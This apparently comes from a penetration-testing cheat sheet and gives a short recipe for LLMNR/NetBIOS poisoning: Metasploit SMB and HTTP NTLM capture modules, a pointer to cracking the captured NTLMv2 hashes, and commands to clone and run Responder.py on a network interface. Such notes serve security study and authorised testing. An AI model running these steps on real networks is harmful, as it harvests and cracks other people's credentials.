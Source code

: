 # Exploit

1. Capture password hashes through LLMNR / NetBIOS Requests using Metasploit.

   ```text
   Auxiliary/server/capture/smb 
   auxiliary/server/capture/http_ntlm
   ```

   * These will result in NTLM v2 hashes which you can use PW cracker to break. 

2. Automated Evaluation / Exploitation \(Responder.py\) 

   ```text
   git clone https://github.com/SpiderLabs/Responder.git 
   python Responder.py -i [IP] -I eth0
   ```

